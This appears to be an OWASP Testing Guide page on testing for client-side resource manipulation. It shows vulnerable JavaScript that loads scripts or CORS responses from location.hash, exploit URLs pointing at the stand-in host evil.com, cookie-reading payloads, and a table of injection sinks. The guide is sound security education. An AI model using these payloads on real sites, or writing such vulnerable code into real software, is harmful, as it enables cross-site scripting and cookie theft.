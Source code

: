 # Testing for Client Side Resource Manipulation (OTG-CLIENT-006)


## Summary
A ClientSide Resource Manipulation vulnerability is an input validation flaw that occurs when an application accepts an user controlled input which specifies the path of a resource (for example the source of an iframe, js, applet or the handler of an XMLHttpRequest). Specifically, such a vulnerability consists in the ability to control the URLs which link to some resources present in a web page. The impact may vary on the basis of the type of the element whose URL is controlled by the attacker, and it is usually adopted to conduct Cross-Site Scripting attacks.


## How to Test
Such a vulnerability occurs when the application employs user controlled URLs for referencing external/internal resources. In these circumstances it is possible to interfere with the expected application's behavior in the sense of making it load and render malicious objects.


The following JavaScript code shows a possible vulnerable script in which the attacker is able to control the "location.hash" (source) which reaches the attribute "src" of a script element. This particular obviously leads XSS since an external JavaScript could be easily injected in the trusted web site.

```
<script>
  var d=document.createElement("script");
  if(location.hash.slice(1))
     d.src = location.hash.slice(1);
  document.body.appendChild(d);
</script>
```


Specifically the attacker could target the victim by asking her to visit the following URL:
```
 www.victim.com/#http://evil.com/js.js
```

Where js.js contains:

```
alert(document.cookie)
```


Controlling scripts' sources is a basic example, since some other interesting and more subtle cases can take place. A widespread scenario involves the possibility to control the URL called in a CORS request; since CORS allows the target resource to be accessible by the requesting domain through a header based approach, then the attacker may ask the target page to load malicious content loaded on its own web site.


Refer to the following vulnerable code:

```
<b id="p"></b>
<script>
 function createCORSRequest(method, url) {
  var xhr = new XMLHttpRequest();
  xhr.open(method, url, true);
  xhr.onreadystatechange = function () {
   if (this.status == 200 && this.readyState == 4) {
     document.getElementById('p').innerHTML = this.responseText;
   }
  };
  return xhr;
 }

 var xhr = createCORSRequest('GET', location.hash.slice(1));
 xhr.send(null);
</script>
```


The “location.hash” is controlled by the attacker and it is used for requesting an external resource, which will be reflected through the construct “innerHTML”. Basically the attacker could ask the victim to visit the following URL and at the same time he could craft the payload handler.


Exploit URL:
```
 www.victim.com/#http://evil.com/html.html
```
```
http://evil.com/html.html
----
<?php
header('Access-Control-Allow-Origin: http://www.victim.com');
?>
<script>alert(document.cookie);</script>
```


### Black Box testing
Black box testing for  Client Side Resource Manipulation is not usually performed since access to the source code is always available as it needs to be sent to the client to be executed.


### Gray Box testing
**Testing for Client Side Resource Manipulation vulnerabilities:**<br>
To manually check for this type of vulnerability we have to identify whether the application employs inputs without correctly validating them; these are under the control of the user which could be able to specify the url of some resources. Since there are many resources that could be included into the application (for example images, video, object, css, frames etc.),  client side scripts which handle the associated URLs should be investigated for potential issues.


The following table shows the possible injection points (sink) that should be checked:

| Resource Type | Tag/Method                     | Sink |
|---------------|--------------------------------|------|
| Frame         | iframe                         | src  |
| Link          | a                              | href |
| AJAX Request  | xhr.open(method, [url], true); | URL  |
| CSS           | link                           | href |
| Image         | img                            | src  |
| Object        | object                         | data |
| Script        | script                         | src  |


The most interesting ones are those that allow to an attacker to include client side code (for example JavaScript) since it could lead to an XSS vulnerabilities. <br />


When trying to check for this kind of issues, consider that some characters are treated differently by different browsers.
Moreover always consider the possibility to try absolute URLs variants as described here: http://kotowicz.net/absolute/

##Tools

* DOMinator - https://dominator.mindedsecurity.com/

## References
**OWASP Resources**
* [DOM based XSS Prevention Cheat Sheet](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet)
* DOMXSS.com - http://www.domxss.com
* DOMXSS TestCase - http://www.domxss.com/domxss/01_Basics/04_script_src.html


**Whitepapers**

* DOM XSS Wiki - https://code.google.com/p/domxsswiki/wiki/LocationSources
* Krzysztof Kotowicz: "Local or External? Weird URL formats on the loose" - http://kotowicz.net/absolute/
